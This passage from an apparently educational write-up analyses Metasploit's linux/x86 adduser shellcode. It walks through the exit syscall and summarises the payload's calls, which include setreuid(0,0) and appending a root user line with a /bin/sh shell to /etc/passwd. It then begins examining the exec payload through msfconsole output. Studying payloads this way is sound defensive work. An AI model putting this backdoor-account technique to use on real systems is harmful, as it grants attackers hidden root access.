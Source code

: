 void exit(int <i>status</i>);</strong></pre>
<p style="text-align:justify;">The <strong>exit(3)</strong> syscall does not return any value but it takes only one argument, the status. As we know from previous analysis, the <strong>ebx</strong> register holds the value <strong>0x3</strong> that will be used as an argument on the <strong>exit</strong> system call which refers at&nbsp;the status of the exit process. When a program exits, it can return to the parent process a small amount of information about the cause of termination, using the exit status. This is a value between 0 and 255 that the exiting process passes as an argument to <strong>exit </strong>system call.</p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 14px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">push byte +0x1  <strong><span style="color:#33cccc;">; push 0x1 on the stack</span> </strong>
pop eax         <strong><span style="color:#33cccc;">; load exit syscall identifier 0x1 into eax</span></strong>
int 0x80        <strong><span style="color:#33cccc;">; execute exit syscall</span></strong></pre>
<p style="text-align:justify;">The software interrupt is then performed by the <strong>int 0x80</strong> instruction where used to call the <strong>exit</strong> system call in order to terminate the program.</p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 14px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;"><strong>exit(3)</strong></pre>
<p style="text-align:justify;">To summarise, from the <strong>adduser</strong> shellcode analysis the following system calls are used</p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 14px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;"><strong>setreuid(0, 0)
open(/etc//passwd, O_WRONLY|O_APPEND)
write(3, metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh, 40)
exit(3)</strong></pre>
<h3>&nbsp;</h3>
<h2><span style="color:#339966;">2nd Shellcode analysis - exec</span></h2>
<p style="text-align:justify;">At this section the <strong>exec</strong> shellcode will be analysed. Before we continue the analysis of the payload we will check the information provided from <strong>msfconsole.&nbsp;</strong></p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 14px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">msf5 &gt; use payload/linux/x86/exec
msf5 payload(linux/x86/exec) &gt; info

Name: Linux Execute Command
Module: payload/linux/x86/exec
Platform: Linux
Arch: x86
Needs Admin: No
Total size: 36
Rank: Normal
